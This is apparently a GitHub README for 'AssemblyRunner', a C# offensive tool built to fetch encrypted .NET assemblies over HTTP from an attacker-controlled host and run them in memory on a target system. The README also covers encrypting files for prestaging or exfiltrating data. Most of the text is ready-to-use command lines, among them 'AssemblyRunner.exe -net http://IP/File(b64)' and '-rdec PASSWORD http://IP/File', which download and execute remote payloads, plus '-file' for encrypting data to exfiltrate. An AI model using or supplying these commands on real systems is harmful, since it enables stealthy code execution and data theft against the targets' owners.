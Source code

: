 # AssemblyRunner

C# Binary that is deseigned to encrypt, decrypt, as well as retreive over HTTP C# assemblies and execute in-memory on a target system.

Overall goal was to be able to encrypt payload on attacker controlled system, transfer this binary, and then remotely retreive encrypted binary and execute in-memory on a target system.

Functionality

.Net Exe Run in-memory with Arguments:

--Run remote .net exe (remote exe is b64 no encryption)
AssemblyRunner.exe -net http://IP/File(b64) "Arguments"

--Local .net exe File decrypt and run
AssemblyRunner.exe -rlocal PASSWORD File_to_Decrypt_and_run "Arguments"

--Remote .net File decrypt and run
AssemblyRunner.exe -rdec PASSWORD http://IP/File "Arguments"


.Net Exe Run in-memory without Arguments:

--Run remote .net exe (remote exe is b64 no encryption)
AssemblyRunner.exe -netno http://IP/File(b64)

--Local .net exe File decrypt and run
AssemblyRunner.exe -rlocalno PASSWORD File_to_Decrypt_and_run

--Remote .net File decrypt and run
AssemblyRunner.exe -rdecno PASSWORD http://IP/File


File Encryption only:

--Encrypt Remote exe and download local, saved as encrypt_remote.txt
AssemblyRunner.exe -enc PASSWORD http://IP/File
--Encrypt Local File, used for prestaging or exfil of data, saved as encrypt_local.txt
AssemblyRunner.exe -file PASSWORD FILE/TO/ENC
--Local File Decrypt for exfil, not on target system, file saved as decrypted.txt
AssemblyRunner.exe -decfile PASSWORD File_to_Decrypt
